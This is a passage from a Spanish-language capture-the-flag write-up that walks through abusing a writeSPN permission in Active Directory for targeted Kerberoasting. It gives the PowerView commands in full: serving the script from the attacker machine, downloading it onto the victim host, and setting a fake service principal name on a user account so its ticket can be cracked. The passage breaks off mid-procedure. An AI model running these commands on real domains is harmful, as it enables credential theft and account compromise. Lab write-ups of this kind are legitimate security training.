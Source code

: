 mirando mas a detalle, tenemos el permiso *writeSPN* lo que nos permitiria modificar los *service principal names* asociados a la cuenta que son los identificadores para la autenticación #kerberos 

la misma aplicación nos resume de que se trata este permiso y como podemos abusarlo en entornos windows:
<img src="/images/writeup-blazorized/37.png">

mirando el modo de abusar de esto en windows, vemos que se nos sugiere un #kerberoastingAtack usando el comando set-domainObject de powerview y luego get-domainspnticket para recibir un ticket del servicio kerberos

si logramos capturar el ticket, podremos intentar desencriptarlo con jhon o hashcat

como procedemos?:

aunque lo estaba intentando sin el uso de #powerview, lamentablemente no se como extraer el ticket que he almacenado en la cache o en el caso de powerview, solicitar un ticket y formatearlo a modo de hash, aunque es posible, es un tanto complejo que nos hará alejarnos del principal propósito de la maquina pero a futuro (podemos hacer un script que automatice la extracción de esto, para que sea mas discreto y podamos usarlo)

el binario podemos encontrarlo en:
```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1

chmod +x PowerView.ps1

python3 -m http.server 80
```

vamos a subir powerview a la maquina victima en la carpeta *Programdata*:
```powershell
wget http://10.10.10.10/powerview.ps1 -o powerview.ps1
```

vamos a importar el modulo:
```powershell
. .\powerview.ps1
```
ejecutaremos el siguiente comando:
```powershell
Set-DomainObject -Identity RSA_4810 -Set @{serviceprincipalname='3vilsec/PWNED'}
```
estamos llamando a una propiedad de powerview que se utiliza para modificar propiedades de un objeto, le especificamos la identidad y que lo que se quiere modificar el serviceprincipalname que es la propiedad vista en bloodhound sobre la cual tenemos control 
